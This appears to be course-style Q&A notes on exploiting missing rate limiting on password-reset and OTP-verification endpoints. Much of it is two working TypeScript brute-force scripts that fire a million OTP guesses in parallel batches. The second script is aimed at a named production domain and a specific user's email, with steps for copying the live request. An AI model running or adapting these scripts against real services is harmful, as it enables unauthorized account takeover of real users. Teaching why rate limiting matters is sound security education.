 ### Questions and Answers on Exploiting the Endpoint

**Q11: How can the lack of rate limiting be exploited on the `/reset-password` endpoint?**  
**A11:** An attacker can send numerous requests to guess the OTP, as shown in this script:  
```tsx
import axios from "axios";
async function sendRequest(otp: number) {
  let data = JSON.stringify({"email": "harkirat@gmail.com", "otp": otp, "newPassword": "123123123"});
  let config = { method: 'post', url: '<http://localhost:3000/reset-password>', headers: {...}, data };
  try { await axios.request(config); console.log("done for " + otp); } catch(e) {}
}
async function main() {
  for (let i = 0; i < 1000000; i+=100) {
    const promises = [];
    console.log("here for " + i);
    for (let j = 0; j < 100; j++) promises.push(sendRequest(i + j));
    await Promise.all(promises);
  }
}
main();
```
It sends 1,000,000 requests in batches of 100, trying OTPs from 0 to 999,999.

**Q12: What vulnerability does the initial endpoint implementation expose?**  
**A12:** Without rate limiting, an attacker can brute-force the OTP by sending a large number of requests until they find the correct one, potentially gaining unauthorized access to user accounts.

---

### Questions and Answers on Exploiting in Production

**Q13: How can you exploit a production endpoint like `harkirat.classx.co.in` without rate limiting?**  
**A13:**  
1. Visit `https://harkirat.classx.co.in`, enter an email (e.g., `randomuser@example.com`), and request an OTP.  
2. Copy the OTP verification request as a cURL from the Network tab.  
3. Use this script:  
```tsx
import axios from "axios";
async function sendRequest(otp: number) {
  let config = { method: 'get', url: '<https://harkiratapi.classx.co.in/get/otpverify?useremail=harkirat.iitr%40gmail.com&otp=>' + otp, headers: {...} };
  try { await axios.request(config); } catch (error) { console.error(error); }
}
async function main() {
  for (let i = 0; i < 1000000; i+=100) {
    const promises = [];
    console.log("here for " + i);
    for (let j = 0; j < 100; j++) promises.push(sendRequest(i + j));
    await Promise.all(promises);
  }
}
main();
```
It tries OTPs from 0 to 999,999 until rate limiting kicks in.
